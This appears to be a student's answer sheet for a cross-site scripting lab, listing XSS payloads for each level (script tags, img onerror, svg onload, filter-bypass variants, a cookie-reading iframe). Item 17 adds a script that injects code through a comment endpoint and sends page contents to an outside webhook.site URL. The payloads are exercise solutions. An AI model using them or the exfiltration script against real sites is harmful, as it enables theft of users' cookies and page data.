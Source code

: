 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```
TODO: Replace this with your attack input.
```
  <script> alert() </script>

# 2. No Script Allowed (3 points)

```
TODO: Replace this with your attack input.
```
  <img src onerror="alert('Hacked by Hasan:)')">

# 3. One More Time, Like You Mean It (3 points)

```
TODO: Replace this with your attack input.
```
  <img src onerror="alert('You are Noob:D')">

# 4. An Open-and-Shut Case (3 points)

```
TODO: Replace this with your attack input.
```
  <img src onerror="alert('attack without torture ;D')">

# 5. Time to Mix Things Up (3 points)

```
TODO: Replace this with your attack input.
```
   <img src onerror="alert('attack without torture ;D')">

# 6. A Picture is Worth a Thousand Words (3 points)

```
TODO: Replace this with your attack input.
```
  <img src onerror="alert('Nope')">

# 7. Between a Rock And a Hard Place (3 points)

```
TODO: Replace this with your attack input.
```
  <object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
                                 or
  <iframe src=# onmouseover="success(document.cookie)"></iframe>

# 8. Angle of Death (6 points)

Attack input:

```
TODO: Replace this with your attack input.
```
  <<script>>alert()</script>

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
TODO: Replace this with your attack input.
```
<iframe"<svg onload=alert()>">

# 11. You Can't Win 'em All (6 points)

Attack input:

```
TODO: Replace this with your attack input.
```
  <iframe""<svg onload=alert()>"">

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:

```
TODO: Replace this with your attack input.
```
  '><script>alert();</script>

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:

```
TODO: Replace this with your solution. **This should be a URL!**
```
  http://caloogle.xyz:4140/search?q=a&lang=en%22%20onload=alert(1)
                or
                " onload=alert(1)

# 15. The Early Bird Catches the Worm (3 points)

```
TODO: Replace this with your attack input.
```
  </ScrIpt><script>alert(1)</script>
  
# 16. Tying Up Loose Ends (3 points)

```
TODO: Replace this with your attack input.
```
  <<//ScrIpt><script>alert(1)<<//script>

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```js
// TODO: Replace this with your solution.
```
  function send(payload) {
    fetch('/comment', {
        method: 'POST',
        headers: {
            'Content-Type': 'application/json'
        },
        body: JSON.stringify({text: 'http://google.com/', id: "1);success("})
    }).then((response) => response.clone().text())
    .then((data) => console.log(data));
}

send('<script> payload = document.documentElement.innerHTML; window.location="https://webhook.site/my-private-id?query=" + encodeURIComponent(payload); </script>')

# 18. Congrats

N/A

# Əlavə qeydlər

```
Sadəcə çox təşəkkürlər,daha yolun başındayıq amma indidən mükəmməl bilgilər əldə edirik.(sayənizdə)

```
